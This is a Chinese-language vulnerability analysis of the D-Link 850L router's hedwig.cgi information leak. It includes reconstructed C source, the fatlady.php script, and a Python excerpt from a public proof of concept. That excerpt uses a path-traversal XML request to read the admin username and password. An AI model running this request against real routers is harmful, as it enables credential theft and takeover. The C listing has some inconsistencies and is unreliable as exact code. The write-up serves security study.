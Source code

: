## 0x00背景

2017年8月8号，SecuriTeam在官方博客上公布了D-Link 850L的多个高危漏洞和PoC，这些漏洞是Hack2Win比赛的成果。其中包括：
- **WAN和LAN远程代码执行**
- **WAN和LAN未授权信息泄露**
- **LAN的root远程命令执行**

## 0x01 漏洞分析
:one: **WAN和LAN远程代码执行**

基于WAN和LAN的远程代码执行漏洞是组合拳漏洞:punch:，包括一个（未授权敏感信息泄漏）和另一个命令注入漏洞，（未授权敏感信息泄漏）用于获取web管理账户和密码，创建授权用户凭证（cookie）。命令注入漏洞是利用ntp server字符串未被检查过滤，向该参数注入恶意命令最终被路由器执行。

（未授权敏感信息泄漏）本质缺陷在于hedwig.cgi缺乏鉴权，导致未经授权的用户发送的请求也会被响应，如果请求获取web管理账户和密码，hedwig.cgi同样会将口令信息回传给不可信用户，造成严重的信息泄漏。

首先，我们要弄清hedwig.cgi处理请求的流程：

hedwig.cgi其实是一个链接文件，指向/htdocs/cgibin文件，接收到用户请求的xml数据请求后先封装成xml文件，发送read xml的请求到xmldb server，然后发送execute php的请求到xmldb server。

- **序列图**

![Alt text](https://wx4.sinaimg.cn/mw690/a750c5f9gy1fll2szvoldj20iq0a5aas.jpg)

- **代码**
``` c
void hedwigcgi_main(...)
{
    char *resp_fomat = "HTTP/1.1 200 OK\r\nContent-Type: text/xml\r\n\r\n<hedwig><result>FAILED</result><message>%s</message></hedwig>";
    char post_stream[0x400], img_stream[0x80], rt_stream[0x11];
    char *method, *message;
    struct option_ref *option;
    FILE *fimg, *fxml;
    unsigned int fd, idx, uid;
    char *ptoken, post_xml, post_ephp;
    char *token_streams[4];

    memset(post_stream, 0x400, 0);
    memset(img_stream, 0x80, 0);
    memset(rt_stream, 0x11, 0);
    memcpy(rt_stream, "/runtime/session", 0x11);
    method = getenv("REQUEST_METHOD");
    if (!method)
        message = "no REQUEST";
    else if (!strcasecmp(method, "post"))
        message = "unsupported HTTP request";
    else
    {
        cgibin_parse_request(sobj_strdup_, 0, 2);
        fimg = fopen("/etc/config/image_sign", "Other");
        if (!fgets(img_stream, 0x80, fimg))
            message = "unable to read signature!";
        else
        {
            cgibin_reatwhite(img_stream);
            option = sobj_new();
            if (!option)
                message = "unable to allocate string object";
            else
            {
                sess_get_uid(option);
                snprintf(post_stream, 0x400, "%s/%s/postxml", "/runtime/session", sobj_get_string(option));
                fxml = fopen("/var/tmp/temp.xml", "w");
                if (!fxml)
                    message = "unable to open temp file.";
                else
                {
                    if (!g_xml_stream)
                        message = "no xml data.";
                    else
                    {
                        fd = fileno(ftmp);
                        if (!lockf(fd, F_TEST, 0))
                        {
                            message = NULL;
                            resp_fomat = "HTTP/1.1 200 OK\r\n\
                                         Content-Type: text/xml\r\n\
                                         \r\n\
                                         <hedwig><result>BUSY</result><message>%s</message></hedwig>";
                        }
                        else
                        {
                            char **tmp_token = token_streams;
                            fd = fileno(ftmp);
                            lockf(fd, F_LOCK, 0);
                            *tmp_token = img_stream;
                            tmp_token += 4;
                            ptoken = strtok("/runtime/session", "/");
                            *tmp_token = ptoken;
                            tmp_token += 4;
                            unsigned int curcles = 2;
                            do
                            {
                                ptoken = strtok(NULL, "/");
                                curcles = curcles + 1;
                                tmp_token += 4;
                                *tmp_token = ptoken;
                            } while (ptoken);

                            sobj_get_string(option);
                            fputs("<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n", fxml);
                            do{
                                fprintf(fxml, "<%s>\n", *tmp_token);
                                tmp_token += 4;
                            } while (idx < curcles);

                            post_xml = strstr(g_xml_stream, "<postxml>");
                            fprintf(ftmp, "</%s>\n", post_xml);
                            do{
                                fprintf(fxml, "</%s>\n", *tmp_token);
                                tmp_token += 4;
                            } while (idx < curcles);

                            fflush(ftmp);
                            xmldbc_read(0, 2, "/var/tmp/temp.xml");
                            snprintf(post_stream, 0x400, "/htdocs/webinc/fatlady.php\nprefix=%s/%s", "/runtime/session", sobj_get_string(option));
                            xmldbc_ephp(0, 0, post_stream, stdout);
                            message = NULL;
                        }
                    }
                }
            }
        }
    }

    printf(resp_fomat, message);
    if (g_xml_stream)
        free(g_xml_stream);

    sobj_del(option);
}
```
对处理流程清晰化之后回归漏洞，PoC公布的攻击代码中显示，攻击者发送了一个相对路径的xml文件（../../../htdocs/webinc/getcfg/DEVICE.ACCOUNT.xml）请求到hedwig.cgi，然后从响应的数据中就包含web管理账户和密码，代码如下：
```python
############################################################
 
print("Get password...")
 
headers = {"Content-Type": "text/xml"}
cookies = {"uid": "whatever"}
data = """<?xml version="1.0" encoding="utf-8"?>
<postxml>
<module>
    <service>../../../htdocs/webinc/getcfg/DEVICE.ACCOUNT.xml</service>
</module>
</postxml>"""
 
resp = session.post(urljoin(TARGET, "/hedwig.cgi"), headers=headers, cookies=cookies, data=data)
# print(resp.text)
 
# getcfg: <module>...</module>
# hedwig: <?xml version="1.0" encoding="utf-8"?>
#       : <hedwig>...</hedwig>
accdata = resp.text[:resp.text.find("<?xml")]
 
admin_pasw = ""
 
tree = lxml.etree.fromstring(accdata)
accounts = tree.xpath("/module/device/account/entry")
for acc in accounts:
    name = acc.findtext("name", "")
    pasw = acc.findtext("password", "")
    print("name:", name)
    print("pass:", pasw)
    if name == "Admin":
        admin_pasw = pasw
 
if not admin_pasw:
    print("Admin password not found!")
    sys.exit()
```
使用wireshark抓包查看数据流：
![...](https://wx1.sinaimg.cn/mw690/a750c5f9gy1fll33cbu3uj20iz0ne40e.jpg)

hedwigcgi_main只是处理攻击者请求的中转站，并没有实际处理xml file的数据，真正处理的程序是xmldb server，这个程序是dlink 850L路由器的核心组件，是用于设置和获取各种路由参数的数据库服务，它既能解析基本的xml文件，还实现了类似php解析器的功能来解析和执行自定义的php文件，固件中众多后缀为php的文件都是伪php文件，用真实的phpcgi是无法执行起来的，只有xmldb才能解析和执行，这个结论是通过逆行分析xmldb文件得到的，具体的数据信息就不粘贴了，读者自行查看。

1. xmldb 先读取了"../../../htdocs/webinc/getcfg/DEVICE.ACCOUNT.xml"，并将其加载到全局数据库中。
2. xmdb 调用fatlady.php处理攻击者请求的xml数据。

接下来查看fatlady.php文件内容，vim htdocs/webinc/fatlady.php：
```php
HTTP/1.1 200 OK
Content-Type: text/xml

<?
include "/htdocs/phplib/trace.php";

/* get modules that send from hedwig */
/* call $target to do error checking, 
 * and it will modify and return the variables, '$FATLADY_XXXX'. */
$FATLADY_result = "OK";
$FATLADY_node   = "";
$FATLADY_message= "No modules for Hedwig";      /* this should not happen */

//TRACE_debug("FATLADY dump ====================\n".dump(0, "/runtime/session"));

foreach ($prefix."/postxml/module")
{
        del("valid");
        if (query("FATLADY")=="ignore") continue;
        $service = query("service");
        if ($service == "") continue;
        TRACE_debug("FATLADY: got service [".$service."]");
        $target = "/htdocs/phplib/fatlady/".$service.".php";
        $FATLADY_prefix = $prefix."/postxml/module:".$InDeX;
        $FATLADY_base   = $prefix."/postxml";
        if (isfile($target)==1) dophp("load", $target);
        else
        {
                TRACE_debug("FATLADY: no file - ".$target);
                $FATLADY_result = "FAILED";
                $FATLADY_message = "No implementation for ".$service;
        }
        if ($FATLADY_result!="OK") break;
}
echo "<?xml version=\"1.0\" encoding=\"utf-8\"?>\n";
echo "<hedwig>\n";
echo "\t<result>".      $FATLADY_result.        "</result>\n";
echo "\t<node>".        $FATLADY_node.          "</node>\n";
echo "\t<message>".     $FATLADY_message.       "</message>\n";
echo "</hedwig>\n";
?>

```
